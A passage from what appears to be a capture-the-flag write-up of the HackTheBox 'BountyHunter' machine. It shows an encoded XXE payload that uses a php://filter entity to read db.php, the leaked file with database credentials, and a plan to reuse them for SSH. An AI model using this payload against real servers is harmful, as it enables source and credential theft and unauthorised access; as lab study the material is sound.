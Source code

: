 Payload to base64

```txt
PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI%2FPgo8IURPQ1RZUEUgcmVwbGFjZSBbPCFFTlRJVFkgeHhlIFNZU1RFTSAicGhwOi8vZmlsdGVyL3JlYWQ9Y29udmVydC5iYXNlNjQtZW5jb2RlL3Jlc291cmNlPWRiLnBocCI%2BIF0%2BCjxidWdyZXBvcnQ%2BCiAgICA8dGl0bGU%2BJnh4ZTs8L3RpdGxlPgogICAgPGN3ZT50ZXN0PC9jd2U%2BCiAgICA8Y3Zzcz50ZXN0PC9jdnNzPgogICAgPHJld2FyZD50ZXN0PC9yZXdhcmQ%2BCjwvYnVncmVwb3J0Pg%3D%3D
```

<a href="/assets/images/htb-machine-bountyhunter/htb-machine-bountyhunter_005.png"><img src="/assets/images/htb-machine-bountyhunter/htb-machine-bountyhunter_005.png"></a>

```txt
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

Time to check ssh, I could not log in with admin and password, but if we check the file extracted from the previous step, we can see that there is a user named development.
